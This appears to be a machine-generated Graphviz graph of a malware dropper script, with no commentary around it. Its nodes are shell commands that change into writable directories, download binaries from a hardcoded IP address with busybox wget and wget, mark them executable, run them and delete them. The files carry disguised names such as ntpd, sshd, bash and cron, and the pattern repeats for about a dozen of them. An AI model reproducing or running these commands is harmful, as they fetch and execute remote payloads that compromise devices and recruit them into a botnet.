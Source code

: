 digraph {
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 10 [label="||,"];
10 [label="busybox wget http://149.56.102.163/ntpd "];
10 -> 12 [label=";,"];
12 [label="wget http://149.56.102.163/ntpd "];
12 -> 14 [label=";,"];
14 [label="chmod +x ntpd "];
14 -> 16 [label=";,"];
16 [label="./ntpd "];
16 -> 18 [label=";,"];
18 [label="rm -rf ntpd "];
18 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 30 [label="||,"];
30 [label="busybox wget http://149.56.102.163/sshd "];
30 -> 32 [label=";,"];
32 [label="wget http://149.56.102.163/sshd "];
32 -> 34 [label=";,"];
34 [label="chmod +x sshd "];
34 -> 36 [label=";,"];
36 [label="./sshd "];
36 -> 38 [label=";,"];
38 [label="rm -rf sshd "];
38 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 50 [label="||,"];
50 [label="busybox wget http://149.56.102.163/openssh "];
50 -> 52 [label=";,"];
52 [label="wget http://149.56.102.163/openssh "];
52 -> 54 [label=";,"];
54 [label="chmod +x openssh "];
54 -> 56 [label=";,"];
56 [label="./openssh "];
56 -> 58 [label=";,"];
58 [label="rm -rf openssh "];
58 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 70 [label="||,"];
70 [label="busybox wget http://149.56.102.163/bash "];
70 -> 72 [label=";,"];
72 [label="wget http://149.56.102.163/bash "];
72 -> 74 [label=";,"];
74 [label="chmod +x bash "];
74 -> 76 [label=";,"];
76 [label="./bash "];
76 -> 78 [label=";,"];
78 [label="rm -rf bash "];
78 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 90 [label="||,"];
90 [label="busybox wget http://149.56.102.163/tftp "];
90 -> 92 [label=";,"];
92 [label="wget http://149.56.102.163/tftp "];
92 -> 94 [label=";,"];
94 [label="chmod +x tftp "];
94 -> 96 [label=";,"];
96 [label="./tftp "];
96 -> 98 [label=";,"];
98 [label="rm -rf tftp "];
98 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 110 [label="||,"];
110 [label="busybox wget http://149.56.102.163/wget "];
110 -> 112 [label=";,"];
112 [label="wget http://149.56.102.163/wget "];
112 -> 114 [label=";,"];
114 [label="chmod +x wget "];
114 -> 116 [label=";,"];
116 [label="./wget "];
116 -> 118 [label=";,"];
118 [label="rm -rf wget "];
118 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 130 [label="||,"];
130 [label="busybox wget http://149.56.102.163/cron "];
130 -> 132 [label=";,"];
132 [label="wget http://149.56.102.163/cron "];
132 -> 134 [label=";,"];
134 [label="chmod +x cron "];
134 -> 136 [label=";,"];
136 [label="./cron "];
136 -> 138 [label=";,"];
138 [label="rm -rf cron "];
138 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 150 [label="||,"];
150 [label="busybox wget http://149.56.102.163/ftp "];
150 -> 152 [label=";,"];
152 [label="wget http://149.56.102.163/ftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x ftp "];
154 -> 156 [label=";,"];
156 [label="./ftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf ftp "];
158 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 170 [label="||,"];
170 [label="busybox wget http://149.56.102.163/pftp "];
170 -> 172 [label=";,"];
172 [label="wget http://149.56.102.163/pftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x pftp "];
174 -> 176 [label=";,"];
176 [label="./pftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf pftp "];
178 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 190 [label="||,"];
190 [label="busybox wget http://149.56.102.163/sh "];
190 -> 192 [label=";,"];
192 [label="wget http://149.56.102.163/sh "];
192 -> 194 [label=";,"];
194 [label="chmod +x sh "];
194 -> 196 [label=";,"];
196 [label="./sh "];
196 -> 198 [label=";,"];
198 [label="rm -rf sh "];
198 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 210 [label="||,"];
210 [label="busybox wget http://149.56.102.163/[cpu] "];
210 -> 212 [label=";,"];
212 [label="wget http://149.56.102.163/[cpu] "];
212 -> 214 [label=";,"];
214 [label="chmod +x [cpu] "];
214 -> 216 [label=";,"];
216 [label="./[cpu] "];
216 -> 218 [label=";,"];
218 [label="rm -rf [cpu] "];
218 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 230 [label="||,"];
230 [label="busybox wget http://149.56.102.163/apache2 "];
230 -> 232 [label=";,"];
232 [label="wget http://149.56.102.163/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 237 [label=";,"];
}
